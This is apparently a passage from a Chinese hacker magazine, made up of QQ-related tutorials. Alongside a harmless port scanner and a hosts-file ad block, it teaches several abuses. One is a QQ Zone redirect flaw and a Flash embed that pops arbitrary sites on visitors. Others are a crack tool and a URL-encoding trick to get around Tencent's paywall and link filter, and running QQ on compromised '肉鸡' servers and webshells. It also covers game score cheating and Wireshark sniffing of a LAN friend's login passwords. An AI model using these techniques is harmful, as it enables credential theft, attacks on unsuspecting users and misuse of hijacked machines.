    For i = 0 To UBound(Xuanfengwu)
        If Not IsNumeric(Xuanfengwu(i)) Then
            MsgBox "你自己看看参数框", , "提示"
            Exit Sub
        Else
        End If
        If Not (Len(Xuanfengwu(i)) > 0 And Len(Xuanfengwu(i)) <= 3) Then
            MsgBox "先洗睡吧", , "提示"
            Exit Sub
        Else
        End If
    Next
End If
```

```vb
If Not ((Int(Xuanfengwu(i)) >= 0 And Int(Xuanfengwu(i)) <= 255)) Then
    MsgBox "你还是把程序关了吧！", 16, "提示"
    Exit Sub
End If
End If
End If
Next i
Else
    MsgBox "唉，再看看吧...", 16, "提示"
End If

Winsock1.Close
start = True
Call SCanningPorts
lstOpenPorts.Text = lstOpenPorts.Text & vbCrLf & "端口" & Text2.Text & "-" & Text3.Text & "扫描完成"
End Sub
```

由于以上代码内容比较长，我分开为大家进行翻译：

当“Text1”控件内容（IP地址）为空时，弹出出错提示。  
当“Text2”控件内容（端口）不是数字时，弹出出错提示。  
当“Text3”控件内容（端口）不是数字时，弹出出错提示。  
当“Text2”控件、“Text3”控件内容（端口）为空时，弹出出错提示。

定义“Xuanfengwu”，分开声明“Text1”控件：  
当内容（IP地址）不是数字时，弹出出错提示。  
当内容（IP地址）每一段位数大于三位时，弹出出错提示。  
当内容（IP地址）每一段数字大于255时，弹出出错提示。  
当内容（IP地址）不完整时，弹出出错提示。

对“Winsock”控件进行描述：“Winsock”控件处于关闭状态，当开始扫描后，“Winsock”控件为响应状态，过程调用“SCanningPorts”（稍后给出代码）。我们把“Text5”控件重新命名为“lstOpenPorts”，并且将它的“ScrollBars”设置成“2 - Vertical”（也就是设置一个垂直滚动条），再将它的“MultiLine”设置成“True”（也就是接受多行文本），设置后的效果（如图2）。当扫描完成时，“lstOpenPorts”显示如下格式文本：“端口+对应端口文本框内容+分隔线+扫描完成”。

接下来我们对“Command2”控件进行声明，代码如下：

```vb
Private Sub Command2_Click()
    start = False
End Sub
```

以上代码的意思是：按下“Command2”后，程序停止扫描，转为不响应状态。

我们继续对“Command3”控件进行声明，代码如下：

```vb
Private Sub Command3_Click()
    lstOpenPorts.Text = ""
End Sub
```

以上代码的意思是：按下“Command3”后，将文本控件“lstOpenPorts”内容设为空白，也就是清空。

下面我们就对之前提到的“SCanningPorts”进行声明，代码如下：

```vb
Sub SCanningPorts()
    Dim porttwo As Long
    portnum = Text2.Text
    porttwo = Text3.Text
    On Error GoTo viri10
    Do
        portnum = portnum + 1
        DoEvents
        If start = True Then
            Winsock1.Close
            DoEvents
            Winsock1.LocalPort = portnum
            DoEvents
            Text4.Text = portnum
            Winsock1.Listen
            DoEvents
        Else
            portnum = 0
            Exit Sub
        End If
        Winsock1.Close
        DoEvents
    Loop Until portnum >= porttwo
    portnum = 0
vri10:
    If Err.Number = 10048 Then
        lstOpenPorts.Text = lstOpenPorts.Text & vbCrLf & "端口" & Winsock1.LocalPort & "开放中"
        Resume Next
End If
End Sub
```

以上代码的意思是：端口数组（开始端口）值为“Text2”控件内容，第二个（结束端口）值为“Text3”控件内容，使用遍历法搜寻端口是否有开放。使用“Winsock”控件监听，将“portnum”设为0，循环到“porttwo”。错误号“10048”表示此端口正在使用中，判断该端口开放，输出数据到文本控件“lstOpenPorts”，显示内容为“某某端口开放中”。

到这里，我们的端口扫描器也就算完成了。点击“文件”-“生成工程”就可以生成文件了（如图3）。


最后，我们对窗体进行一个声明，代码如下：

```vb
Private Sub Form_Load()
    Text1.Text = Winsock1.LocalIP
End Sub
```

以上代码的意思是：使用“Winsock”控件获取本地的IP地址，并输出数据到“Text1”控件中。

整个程序的编写对各位读者来说应该不是太难，如果看不懂代码的，该好好强化一下编程水平了。这次的文章就到这里，相信大家都应该能看得懂。

### QQ影音——3D视觉享受

黑夜红云

从去年的《阿凡达》开始，全国就掀起一场3D热。腾讯貌似也不愿放弃这个大好商机，在2011.05.12的时候推出了新版的QQ影音（QQ影音3.1）。此版本最大的亮点就是：

- 3D播放：支持实时2D转3D
- 3D播放：支持红蓝交换
- 3D播放：支持视差调节
- 3D播放：支持交错视频格式
- 3D播放：支持画面拉伸

其实就是一句话：把普通的2D视频转换成3D。

在此之前先来回顾下：QQ影音是由腾讯公司推出的一款支持任何格式影片和音乐文件的本地播放器。QQ影音首创轻量级多播放内核技术，深入挖掘和发挥新一代显卡的硬件加速能力，软件追求更小、更快、更流畅的视听享受。

好了，废话不多说。让我们看看它的新功能吧！


首先下载、安装并升级到最新版（废话）。打开个视频（还是废话），把鼠标移到标题栏下面，单击“展开播放效果调节菜单”的按钮（图1），选择“3D”按钮（图2），设置窗口就弹出来了（图3）。

可以看到转换模式有五种，分别为“不转换”“左右叠加”“上下叠加”“交错叠加”和“2D转3D”。

接下来我来解释下这五个效果，以及效果推荐度。

不转换：就是播放普通的视频（图4）。


左右叠加：把红蓝两色左右叠加在一起，立体感很强，不过画面有些变形，人有点像幽灵（图5）。


- 上下叠加：把红蓝两色上下叠加在一起，看不出立体感，不推荐（图6）。
- 交错叠加：和不转换没区别。
- 2D转3D：完全的3D化，效果最好（图7）。

最后选个自己认为最好的效果就行了。

看3D电影就是这么简单，这么方便。什么！！！你说没3D眼镜！！！自己想办法。☒

## 把QQ绿钻下载高品质音乐

相信许多叉子对于腾讯的QQ音乐软件是又爱又恨，爱它简单实用、歌曲库丰富；恨它以高品质音乐为卖点让叉子们花钱开绿钻。我们知道，开通绿钻后就能享受免费下载高品质音乐的特权，这功能对于非常喜爱音乐的叉子来说是很实用的。怎奈囊中羞涩，如何付得起一个月10大洋的绿钻？本文讲介绍非绿钻下载高品质音乐的方法，并且介绍从SOSO音乐库中获取更多需要的高品质音乐的方法。

先运行附件中的CrackQQMusic小工具，在QQ音乐右上角的搜索框中输入想要下载的音乐，如这边输入“想自由”后回车。此时就能找到大量歌曲信息，选择类型是QQ音乐的歌曲，选择播放（图1）。此时歌曲就会自动添加到播放列表中。选中添加的歌曲，右击，选择“下载”（图2）。


图3

这时便会弹出一个下载窗口，选择“高品质”，然后点击CrackQQMusic中的“下载高清音乐”按钮（图3），然后高品质音乐就会自动下载，可切换到“本地管理”查看（图4）。如图4所示，这时下载的音乐并不是普通品质的仅4M的歌曲，而是高品质10M大小的MP3。


图4

突破绿钻下载限制的方法非常简单：首先运行QQ音乐，并运行附件中的CrackQQMusic小工具。


图5

## QQ宝典

介绍完如何下载QQ高品质音乐，有叉子不禁要问：是否有更简单的下载QQ高品质音乐的方法？答案是有的，我们需要借助MusicSeeker这款软件。在SOSO的服务器上下载需要的高品质音乐歌曲也是很简单的。双击运行附件中的MusicSeeker.exe，界面非常漂亮，选择“软件设置”，在下载保存路径中选择自己的目录（图5）。回到MusicSeeker卡片，输入想要寻找的音乐，回车，很快就会显示出大量的音乐信息（图6）。双击需要下载的歌曲，会弹出“添加新的下载任务”，按下“添加”后歌曲下载就自动开始了（图7）。速度很快，而且很容易找到无损音乐（图8）。这种方法其实是从另一个角度获取了原本绿钻才能下载的高品质音乐。


好了，这两款小工具就介绍到这里。高考完了，参加高考的叉子都应该听听好音乐，好好休息一番了。

我的黑大战群组地址为：http://www.hackerxfiles.net/forum.php?mod=group&fid=88，大家可提问。

## 谁说Linux下QQ是废柴？

相信用Linux的叉子不在少数吧。没错，Linux的稳定、快速、安全、易用始终受到叉子们的青睐。推出有一段时间的Ubuntu 11.04发行版更是以其简洁而华丽的界面和良好的用户体验获得了广大Linux用户的好评（图1）。但是，经常听到身边的朋友抱怨Linux下好多软件都没法用，尤其是QQ，腾讯做的QQ for Linux简直就是废柴啊。今天笔者就为正在为Linux下QQ感觉不好用的叉子们介绍腾讯推出的新品——WebQQ Air。

5月，腾讯推出了基于AIR平台的WebQQ 3.0增强版，界面友好、操控方便、用户体验优良，而且有一定的“云”思想在其中，笔者个人非常欣赏。尤其令人愉快的是，由于基于AIR平台，WebQQ Air可以跨平台使用，且在不同的电脑都能实现免安装操作、快速使用到在云端“安装”的软件，这就很好地解决了在Linux下使用QQ的问题。


要使用WebQQ Air，首先要安装Adobe Air。以Ubuntu Linux 11.04为例，只需要打开Ubuntu软件中心，在右上角的搜索框中输入Adobe Air并搜索，按下安装，提供管理员密钥进行安装。装即可（图2）。整个过程非常简单，只需要1分钟即可完成。由于 Air 2.0 在 11.04 下的兼容性有待改良，笔者同时推荐使用光盘内附带的 DEB 包进行安装。这个版本比较旧，但兼容性更好些。安装的方法是在 Ubuntu 下双击 DEB 包，并按提示很快完成安装。

接下来就是安装 WebQQ Air 的客户端了。将光盘内附带的（文中涉及的“adobeair.deb、WebQQ.air”本期光盘已收录）WebQQ Air 的 AIR 文件下载到本地，双击进行安装。读取 AIR 压缩包（实质是一个 ZIP 文件）需要一定时间，等完成读取后，点击“安装”（图3）。在下一步中可以按自己的需求修改安装位置，也可以在桌面和左边栏创建快捷方式，设定好后按下“继续”（图4）。此时会要求提供管理员权限，输入管理员密码：如果是在白框中输入，则密码不显示，输入完成后按回车确认（图5）；如果是以对话框形式出现，则直接输入即可。


图3


图4


图5

安装完成后就会自动弹出一个窗口（图6）。这个窗口是嵌入桌面的，因此能获得非常良好的操控体验。值得一提的是，WebQQ 现在已经有大量的小软件可以供安装，利用这些小软件，也能或多或少地解决 Linux 下常用软件不足的问题。至于 WebQQ Air 的体验如何，笔者认为至少比早前的 QQ for Linux 有很大进步，访问空间、组织圈子还是很方便的（图7）；但一些实用功能如 QQ 音乐还不能完美使用，笔者相信腾讯的工作人员很快会解决此类问题。


图7


图8

## 我从未曾停止过自己的QQ空间情感漏洞

白雪龙

前段时间家里一直停网，在与世隔绝的这段时间内，唯一与外界沟通的工具就是我的智能小电脑（HTC 下的安卓手机一部）。闲来无事浏览 QQ 空间，看到追心发布了一篇“公布腾讯QQ空间2011漏洞”的日志，所幸兴趣被勾起，点了进去一看是很简……

## QQ宝典

单伪跨站漏洞，它的格式为“任意 QQ 空间地址 + url + 跨站地址”，例如：http://user.qzone.qq.com/QQ号码?url=http://www.QQ.com，预览效果如图1所示。

而且此地址发到 QQ 聊天中可以轻松通过腾讯安全网站防线验证，如图02。由图可知，我们无论在 url 后面加任何地址（哪怕是违法的），都会被腾讯一概视为他们官方的地址从而免于屏蔽（地址前面的小图标）。此漏洞虽然构造简单，属于低级错误，但是危害巨大。最为重要的是现在还能引起腾讯官方的重视，依然可以任意构造地址去谋害无辜。关于跨站带来的危害以及如何利用跨站漏洞，大家可以去参考以往的杂志，这里就不多加阐述了。以上只是一个棋子，下面我将为大家讲解另外一种腾讯空间跨站。

现如今腾讯日志的风靡将为我们此种跨站提供良好的契机。先说一下此类跨站的运作原理：利用 QQ 空间日志的 HTML 语言插入带有跨站代码的 Flash 从而得以实现（当然不但可以插入 Flash，还可以插入音乐以及视频文件，这些将在下面为大家提到）。需要用到的软件是 SWF 反编译工具，其界面如图03所示。SWiX 是一款 SWF 编辑工具，准确地说是一款调试、更新 SWF 文件的 XML 编辑器。它可以将 SWF 文件反编译为 SWiX 的 XML 格式（SWiX-format XML），支持全系列 Flash 格式；反编译为 XML 格式会支持语法高亮、代码格式化及自动完成，还能预览修改过的 SWF 文件。

修改过的 SWF 文件。打开软件，打开提前为大家准备好的 ceshi.swf（如图04），选择标签下的“doacting”选项，双击打开，得到代码：

```xml
<DoAction>
  <Actions>
    <GetURL URL="http://www.baidu.com" Target="_blank" />
    <End />
  </Actions>
</DoAction>
```

我们将其中的 http://www.baidu.com 换成跨站的地址即可，这里我以百度代替，之后保存退出。接下来将修改好的 Flash 上传至互联网站，得到该 Flash 的绝对地址。这里我提供给大家一个免费上传地址：http://upload.meqzone.com/upload.php，如图05所示上传成功。


我们复制生成好的 Flash 地址替换到以下代码中去：


```html
<embed height="1" type="application/x-shockwave-flash" width="1" src="你的flash文件外链地址" wmode="window" loop="true" autostart="false" invokeurls="false" allownetworking="internal" allowscriptaccess="never">
```

以上代码大体意思是插入你的 Flash 以及该 Flash 在浏览器显示时的基本属性。将新代码复制保留，打开 QQ 空间——日志——高级——HTML，之后插入代码即可。那么当别人浏览到你这篇日志后，浏览器就会自动弹窗你事先要求打开的站点，如图06。


当然以上只是提供思路，其实我们除了利用 Flash 弹窗，还可以利用视频、音乐弹窗。需要做的工作就是找到该类型文件的反编译工具，之后再配合简易的 HTML 代码就可以实现。这里我再列举一个 RM 插入的代码：

```html
<OBJECT>"height="<:HEIGHT:>"">
<PARAM NAME="CONTROLS" VALUE="ImageWindow">
<PARAM NAME="AUTOSTART" Value="true">
<PARAM NAME="SRC" VALUE="<:FILENAME:>">
<embed height="<:HEIGHT:>" width="<:WIDTH:>" controls="ImageWindow" src="<:FILENAME:>?embed" type="audio/x-pn-realaudio-plugin" autostart="true" nolabels="0" autogotourl="-1"></OBJECT>
```

> （文中涉及的相关代码及工具本期光盘已收录）

## VB+JMAIL插件实现QQ在线短信提醒

在 QQ 好友中总有那么几个人是我们关注的，希望能够在第一时间了解他们的在线情况，于是腾讯推出了超级 QQ 功能。但是难道我们真的要为此动辄花几十米买一个服务吗？今天带给大家这样一个能够实现好友上线提醒的程序，希望大家能够喜欢。

首先要分析如何实现获取好友的在线情况。腾讯有一项面向网站客服的服务，叫做 QQ 在线状态（wp.qq.com），可以在自己的网站上显示客服的 QQ 是否在线，如图1所示。通过访问 http://wp.qq.com/pa?p=2:XXXXXXXXXX:41（将 XXXXXXXXXX 改成 QQ 号），就可以获取相应 QQ 的在线状态了。因此我们可以用程序分析图片显示的是“在线”还是“离线”，获得 QQ 的在线情况。


其次是实现短信提醒功能。中国移动的 139 邮箱服务可以将收到的邮件第一时间推送到手机上，联通和电信也有类似的服务。因此，我们可以用这些邮箱向手机发送在线状态信息。首先打开 http://mail.139.com，激活并登录 139 邮箱，在【设置】—【邮件到达设置】中，选择长短信，点击确定，这样才能在短信中看到完整的内容。再在【设置】—【白名单】中，添加用来发信的邮箱，以免多次发送相同的邮件而被识别成垃圾邮件。


再次是实现邮件发送功能。可以通过 VB 调用现成的 JMAIL 组件进行邮件发送，和一般论坛的邮件发送原理一样。在百度输入 jmail，就可以找到 jmail 组件的下载地址了。

在做好准备工作以后，下面我们就开始写程序。因为程序用到 MSINET 控件来读取网络上的图片，所以在 VB 的【工程】—【引用】中，首先要引用 MSINET 控件，如图2所示。

在窗体上绘制一个 MSINET 控件、一个 Timer、一个 Label，如图3所示。添加以下代码：

邮件发送，Txt_Mail 是邮件内容，Online_Status 是在线状态。

```vb
Sub SendMail(ByVal Txt_Mail As String, ByVal Online_Status As String)

Dim jmail
Set jmail = CreateObject("jmail.Message")

' Jmail组件
jmail.Charset = "gb2312"  ' 设置文字编码格式为GB2312
jmail.Silent = False
jmail.MailServerUserName = "XXXXXX@XXX.com"  ' 发信邮箱
jmail.MailServerPassWord = "XXXXXX"          ' 邮箱密码
jmail.FromName = "Online-Status"             ' 发信人姓名
jmail.From = "XXXXXX@XXX.com"                ' 发件邮箱
jmail.Subject = "QQ状态提醒"
jmail.AddRecipient "XXXXXXXXX@139.com"       ' 收信人地址
jmail.Body = Txt_Mail                        ' 邮件内容
jmail.Send ("smtp.XXX.com")                  ' SMTP服务器
Set jmail = Nothing
End Sub

Private Sub Timer1_Timer()
Static St As Boolean
On Error Resume Next
Dim bData() As Byte
bData() = Inet1.OpenURL("http://wpa.qq.com/...", icByteArray)
txt = bData()
Select Case Len(txt)
Case "621"
    If Label1.Caption <> "在线" Then
        If Label1.Caption <> "异常" Then SendMail "检测到QQ上线时间：" & Now(), "QQ上线提醒"
        Label1.Caption = "在线"
        St = False
    End If
Case "626"
    If Label1.Caption <> "离线" Then
        If Label1.Caption <> "异常" Then SendMail "检测到QQ离线时间：" & Now(), "QQ离线提醒"
        Label1.Caption = "离线"
        St = False
    End If
Case Else
    ' 判断异常情况
    If Label1.Caption <> "异常" Then
        Label1.Caption = "异常"
        If St = True Then
            SendMail "程序出现异常，请进行维护！", "程序异常提醒"
            St = False
        Else
            St = True
        End If
    End If
End Select
End Sub
```

这样，只要 QQ 一上线或下线，就会收到相应的短信提醒，如图4所示。这样一来，只要在一台计算机上运行这个软件，就可以时刻关注自己的好友了！


图4

> （文中涉及的相关软件及源代码本期光盘已收录）

## QQ空间免费匹配正版背景音乐

许建轩

大家都知道，QQ 空间要匹配一首正版音乐得花好几个 Q 币，如图1。小菜我可是穷学生，哪有闲钱买歌呢！难道穷人就得忍受不平等待遇吗？当然不！小菜我今天就来教大家如何免费拥有正版的空间背景音乐，方法就是：每月花10块钱开个绿钻，你就能免费拥有正版音乐哈^_^（开玩笑啦，先别砸砖~）。


图4


图1


图2

我们需要用到一款叫做“龙抓手”的小软件。这软件类似于影音嗅探器，可以嗅探出网页中音乐或视频的源地址。我们先打开“龙抓手”目录下的 PpSniffer.txt（如图2），该文件用于设置各种类型文件的嗅探过滤。由于我们只需要嗅探出音乐的地址，所以只留下“.mp3”和“.wma”这两个后缀即可。

修改并保存后，运行“龙抓手”主程序，如图3；点击“开始”来进行嗅探，然后到 QQ 空间的音乐库搜索你想要的歌曲，点击播放后就能看到“龙抓手”已经嗅探到地址了，如图4。接下来该去把它添加为背景音乐了，依次点击“音乐盒”——“音乐库”，在页面的右下方找到“添加网络歌曲”，如图5。

如果你直接将嗅探到的音乐地址填写到“歌曲链接”里，就会被告知“您所添加的链接因安全问题已被过滤，请更换链接或直接进入商城搜索添加”，如图6。那么它是如何判断出我们添加的是非法链接呢？经测试，我发现它是通过检测链接中是否出现“qqmusic.qq.com”来进行判断的。要突破检测也很简单，我们只需将其中第一个“.”改为“%2E”，也就是将链接中的“qqmusic.qq.com”改为“qqmusic%2Eqq.com”就可以了。为什么要这样改呢？其实，“%2E”正是字符“.”的 URL 编码形式，也就是说修改前后是等效的，但是却能成功地避过链接检测。这里顺便给出一个可以转换 URL 编码形式的软件，如图7。


图5


图3

成功添加歌曲后，还得去歌单里将其设为背景音乐，如图8。你会发现我们添加的歌曲连通率并不高，一般在 30%-55%，但其实不用担心，歌曲是属于腾讯服务器的，稳定性肯定有保障。至于为什么连通率不高，我怀疑这是腾讯用来忽悠人的小把戏，目的是骗人去开绿钻。我很好奇这个“连通率”是怎么算出来的，于是试着添加一首地址为“http://www.许建轩真帅.com/轩哥真的很帅.mp3”的歌曲（当然，根本不存在这样的链接^o^），但是竟然有49%的连通率 -_-b。在这里小小地鄙视一下腾讯凸(-_-)凸。


图6


图7


图8

> （文章中涉及的相关工具本期光盘已收录）

另外，我在测试“龙抓手”抓取链接的时候，发现了一个挺奇怪的现象：我用谷歌的 Chrome 浏览器打开音乐库，“龙抓手”嗅探到的链接全是“.mp3”后缀的歌曲；而用 IE 浏览器时，抓到的却大都是“.wma”后缀的歌曲（一般来说，mp3 的音质比 wma 的好）。搞不懂为什么会出现这种情况。还有需要注意的是，如果你是 Win7 系统，“龙抓手”可能抓取不了链接。

## 不是绿色的绿化

## ——记QQ保姆软件绿化过程

缺钱的人

近日突然热衷于 QQ 农场牧场的建设了，无奈好友特多，只有寻求软件的帮助了。找了许多都发现功能不太理想，最后偶然间发现 QQ 保姆（http://www.qqbm.net/read-htm-tid-1.html 下载最新版）功能齐全，可以农牧餐三合一，而且里面的自动领奖到奖励什么的都更新得非常及时。软件就不介绍了，不然有广告嫌疑。

可是问题来了，开始使用的时候是下的破解版，后来这个软件升级后发现那铺天盖地的广告差点没把我吓死。尤其是弹出广告中的音乐，那个诱惑、销魂、恐怖、激昂……尤其是半夜打开保姆收菜的时候。本人乃小菜一枚，但也爆破过最简单 crack me。本以为一个外挂类软件，又不用注册什么的，有这点水平也可以做简单绿化了，兴致冲冲打开 OllyDBG 导入文件，查找 ASCII，结果发现原来破解真的不简单，果断放弃这个方法。

后又想起有次给别人改过投票器，用这个方法是不是可以呢？初期思路为：既然软件要弹出广告窗口，那么广告窗口的地址就必然藏在软件中；那么想关掉广告，是不是将软件中的广告地址干掉就可以把广告干掉呢？有了这个想法，俺的精神当然是“想动就动”嘛。首先记录下广告的地址（小提示：有些广告屏蔽了右键地址栏，对付这种广告只要保持广告窗口在最上方，然后按组合键 Ctrl+N 在新窗口打开，地址就出现了，不信可以拿新浪的弹出广告做下测试）nl.tg.haiyingsite.com、111a.hwan.net 等网站。然后准备工具 WinHex（哪个版本无所谓，但最好是汉化的，因为俺英文不好，本文只是简单应用）和 QQ 保姆。首先安装 WinHex 并用 WinHex 打开 QQ保姆.cxc，然后查找上面的网址，结果是以失败告终，刚刚记录的网址居然一个也没有查到。

到底是什么原因呢？思来想去估计原因是网站用了跳转页面，这个当然难不到咱们。先不管三七二十一，把所有带 http 打头的网址都屏蔽掉（当然以 QQ.com 结尾的例外，不然你连农场都登录不上）；说干就干，在 WinHex 点击“搜索”——“查找文本”，在搜索内容框内输入 http://，表示要找所有的网站，然后找到一个就……将这个网站的域名替换为 `00`，域名以后的可以不用管。在 `WinHex` 中按 `F6` 进入默认编辑模式后修改。替换近20多个域名后只查找到约10%不到的软件内容，折腾很久且中间还报错，说明此法不通，需要另寻它法。

```text
http://qqbmad.mycode8.com
http://qqbmadbak.mycode8.com
```

尝试通过修改 `hosts` 屏蔽广告：打开 `c:\windows\system32\drivers\etc\hosts` 文件，在末尾加入广告域名映射。

```text
127.0.0.1 nl.tg.haiyingsite.com
127.0.0.1 111a.hlwan.net
```

测试后弹窗明显减少，但仍有部分内容。继续在源码中查找 `http` 关键字并定位广告源，最终确定两个域名并填入 `hosts`。再次测试后不再弹窗，且升级后仍有效，不影响正常功能。

```text
127.0.0.1 qqbmad.mycode8.com
127.0.0.1 qqbmadbak.mycode8.com
```

上面的方法填写 `00` 时要注意位数，过多或过少都可能报错。后来用 `hosts` 方案可以稳定屏蔽广告。文末说明不再提供软件，软件可自行搜索，`hosts` 文件建议自行修改。

## 非超Q打造QQ全天在线

文章介绍在没有超级QQ的情况下实现较稳定在线的方法：利用 Wap 登录思路与模拟环境，不依赖高配置电脑与本地常驻软件。作者说明该方法技术门槛不高，重点是思路与可用站点。

```text
http://sim.roboo.com/simulator/crawldata_r.jsp?rf=y&url=
http://www.roboo.com/pages/simulator/wbpdt.jsp?rf=y&url=
```

通过 Wap 站点模拟手机 3G 登录 QQ，可减少资源占用并降低掉线概率。作者同时提到该方案仍存在一些问题，后续继续讨论。


作者补充：曾尝试过其他挂Q工具，但受登录限制、设备要求与资源消耗影响较大；对比后更倾向于基于 Wap 模拟的方案，并给出可用站点供参考。

## QQ宝典

是用什么机器挂呢，自己的电脑是不可能保持全天开机的，肉鸡的话也是一样。那咱们搞到手的服务器就派上用场了（Windows 2003 的肉鸡也是可以的，只要可以运行程序）。哈哈，万事俱备，下面开工。

首先看一下上面的链接，后面的“url=”，我们可以直接在后面敲上我们 3G 网址，直接在 IE 中打开，如图1。

本来打算写一个自动填表的程序来实现 QQ 的登录，不过突然发现利用其网址的链接可以实现直接登录。这样再一次节省了我们的时间。其次在 IE 中登录你需要挂的账号，等到提示登录成功，并且列出了你的好友列表后，把 IE 网址栏中的网址记录下来。你就可以利用这个链接来实现快速登录了。然后就是编程了。打开我们的易语言，创建一个窗口，可视为假的程序（保险一点），添加一个时钟周期为 1200000，也就是 20 分钟。虽然说 30 分钟掉一次，我们还是弄快点，这样能保持期间不会掉。再添加超文本浏览框（http 读取页面是不能达到我们登录 QQ 的效果的），把超文本浏览框的地址设置成刚才我们记录下来的链接。这样就初步完成了我们的要求。不过这样只能登录一次，还需要我们把程序搞成 20 分钟自动刷新一次。我也是个菜鸟，就用最笨的方法吧，如图2。


如果你挂的 QQ 是你不经常登录的，也许这样也就行了。但如果你挂的 QQ 是你每天都用到的，那这样 20 分钟被顶掉一次岂不被烦死了。下面我们就来稍作修改，让程序达到可以判断是否上线的效果。

首先一个网站的读写权限（无渗透的肯定有），还需要两个文件，因为可能要挂多个账号，所以文件名最好用你要挂的账号。这里我们用 1234 为例，这两个文件的功能类似是这样的：1234.txt 默认内容是“A”，当访问 1234.asp 时，1234.txt 内容变成“B”，当再次访问 1234.asp 时，1234.txt 内容又变成“A”，如此循环。这样我们就可在程序中加入一个判断命令，来确定是否登录我们的账号。但我对 ASP 语言一窍不通，还是一个哥们帮我写的，这里我就直接打包给大家了。判断的代码我就直接贴出来吧，如图3。但在这里要记住，“A”是登录，“B”不登录，并且这两个文件要放在同一目录下。


我们先把挂号程序编译出来，找个能执行 CMD 命令的站点。把程序传上去，执行一下。现在号就挂上了……另外如果其中出现问题，用 WebShell 会比较麻烦，个人认为用肉鸡会更方便。

下面编写我们的客户端。这个工作就简单了，先来一个皮肤（反正是我们自己用的，弄好看一点^^）。这里用到的是 33 个常用皮肤模块。我最喜欢的就是其中的 11，因为和 Windows 7 的皮肤很像。又说废话了……代码和前面的相似，我还是用一张图代替，便已完成的界面也是一样，如图4和图5。


这样一个完整的挂号软件就完成了。这样像我这样的学生们即使不在家，QQ 等级也是一样升级。我现在是会员4级，如果加上安全管家的1天，我们 QQ 升级的速度就可想而知地快了。这样不仅省去每个月 10 元话费，而且总归是自己做的程序，小有成就感……


最后要说几个问题，这个程序虽然用起来很方便，可以同时挂几十个 QQ（我自己挂了15个），但是这个程序同样会有一些漏洞，比如说在用此程序挂号的过程中，好友给你发消息你会收不到，这就需要我们经常登录 3GQQ 查看消息，或者直接写一个 Wap 浏览器。这里我送大家一个，和源码一块打包。利用这个程序同样可以实现类似每天签到、大乐斗自动 PK、农场自动收菜等功能，其他功能就有待大家自己去开发了。

> （文章中涉及的相关源码本期光盘已收录）

### 五年黑钻免费拿

Evan

相信黑X星一定有喜爱玩 DNF 这款游戏的吧，有黑钻的好处可是多多的呢。但是黑钻却要 20 块钱一个月，这让很多人都望而却步了。现在我教大家免费领取 5 年黑钻，嘿嘿，够爽吧，够劲爆吧。

这个是腾讯和赞助商一起搞的活动，活动地址是 http://shengzhanshi.qq.com/。我们进入页面，可以看到一个 flash 小游戏。我们需要玩通关，然后就可以获得 1000 的积分。然后就可以用积分去抽取奖品了，奖品大都是有关 DNF 的，其中就有黑钻，中奖率挺高的。抽奖是有技巧的，这个等会来说了。


图1

大家来看下我抽奖的结果吧，如图2和图3。大家看到图2，千万别喷；继续看下图3吧。图3都是我中奖的 CDKey，用这些去页面左边的兑换链接去领奖。虽然拿的是7天黑钻，不过我已经连续4天抽到了7天黑钻，这样下来就是一个月的了。在抽奖的右边赫然写着活动截止到 2012 年 8 月 20 日 24:00 止（如图4）。从 11 年 12 月开始来算的话，差不多有 9 个月的时间。每天可以抽到一个 7 天的黑钻，`(9*12*7)/365=5.18`，哇靠，5年啊，合算是1200元呢。


图3


图2

要是我们人工去玩这个游戏的话，难通关不说，又耗费许多时间。这里给大家一个利器，如图1。这个就是游戏的刷分器了，只要鼠标轻轻一点，一千积分就到手了。不过这是有限制的，每天最多通关15次，也就是说我们每天最多可以拿到15000的积分。而且每次抽奖只需要100积分，不过抽奖也是有15次的限制。


图4

好了，不说废话了，告诉大家抽奖的技巧吧。要抓准抽奖的时间，我抽中黑钻的时间都是中午的 12 点半左右；并不是时间越早越好，我试过凌晨去抽奖，结果中了些没用的东西。大家快行动吧，5年的黑钻不要白不要啊！

## 利用 Wireshark 嗅局域网安全

后恋

本文用到的软件是大名鼎鼎的 Wireshark，测试环境为 XP+SP3，在其他环境同样有效。首先介绍下 Wireshark，Wireshark（原名 Ethereal）是目前世界上最受欢迎的协议分析软件，利用它可将捕获到的各种各样协议的网络二进制数据流翻译为人们容易读懂和理解的文字和图表等形式，极大地方便了对网络活动的监测分析和教学实验。它有十分丰富和强大的统计分析功能，可在 Windows、Linux 和 UNIX 等系统上运行。Wireshark 作为一款出色的网络抓包工具，除了在正常的工作中进行网络协议以及数据包的分析外，也可以在局域网内作些很出格的事哦，本文就是介绍如何利用 Wireshark 嗅探抓取局域网内其他机器基于 http 协议、ftp 协议的登录用户名以及密码的方法。

Wireshark 软件的使用主要是对过滤条件的设置，具体用法在这里就不进行赘述了，本文用到的东西我们都会进行详细讲解。我本机装的是 Version 1.2.6 版本（如图1），目前最新版为 1.4.6，新旧版本是通吃的。毕竟 Wireshark 的主要功能便是抓包，所以对于版本的问题无需担心。在演示前，先对原理稍作解释：首先是打开网卡并工作在混杂模式（Promiscuous Mode），工作在混杂模式下的网卡接收所有流过网卡的帧，信包捕获程序就是在这种模式下运行的。混杂模式下的网卡将接受同一网络内所有站点所发送的数据包，这样就可以达到对于网络信息监视捕获的目的。


接下来我们进入实战，虚拟机下进行演示，虚拟机与主机在同一局域网内。首先查探下目标主机 IP，如图2。我本机是 192.168.100.22。接下来打开 Wireshark 界面，点击开始如图3，进行设置选好网卡，要选真实物理网卡。之后点击 options 进行设置，在 Capture Filters 中设置过滤选项，设置过滤选项如图4。

```text
host 192.168.100.70 and (tcp or udp)
```

对代码进行下解释，host 是抓取的目标主机，指你局域网内想要进行抓包的主机 IP；如果不对特定的主机进行抓包，可以不用设置该语句。tcp or udp 则是指抓取 tcp（注 tcp 包含 http、ftp 包）、udp 的包。

因为局域网内发送的包实在太多了，我们只需要抓取对我们有用的包便可以了。设置完成后点击 start 开始；然后我们在虚拟机内登录人人网，输入用户名密码后登录。抓包如图5。接下来对包进行分析，如图6抓取的包。


图6


图7

分析 http 包中 post 提交这条数据，可以清晰地看到在 line-based text data 栏清晰地列出了用户名密码。如此便轻松地搞定了局域网内一个朋友的账号。此方法适用于未使用 SSL 加密的网站论坛等，目前大部分论坛网站都是未经 SSL 加密的，在 Wireshark 之下局域网内几乎是没有隐私可言的。接下来我们抓取一个 ftp 空间的密码测试下，基本流程同上，如图7 ftp 抓包分析。

同样会以明文显示，被轻松获取得到。同样其它一些敏感信息的抓取可以如法炮制，在此就不多做赘述。

发此文的目的是提醒用户多加注意安全防范意识；注意平时工作学习中的自我保护意识。同时也是普及一下 Wireshark 的简单应用，Wireshark 是工作学习中分析网络协议的最好的软件之一，用途很多，等待大家去探索。


## 内网战场

